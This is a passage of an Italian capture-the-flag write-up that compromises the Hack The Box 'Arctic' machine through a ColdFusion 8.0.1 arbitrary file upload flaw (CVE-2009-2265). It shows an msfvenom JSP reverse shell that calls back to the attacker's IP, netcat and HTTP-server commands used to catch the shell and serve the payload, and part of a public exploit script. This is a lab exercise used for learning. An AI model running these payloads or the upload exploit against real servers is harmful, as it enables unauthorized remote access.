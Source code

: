 Nella nostra directory dove abbiamo il payload tiriamo su un server per poter scaricare il paylod dalla macchina target

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

lanciamo il task salvato precendetemnte e otteniamo una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.11] 51613
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

### METODO SENZA AUTENTIFICAZIONE ADMIN

Creiamo una payload .jsp con il seguente comando:

```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.53 LPORT=4444 -f raw > shell2.jsp
Payload size: 1497 bytes
```

Attaraverso questo script riusiamo a caricare il payload creato in precenza https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

```bash
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
```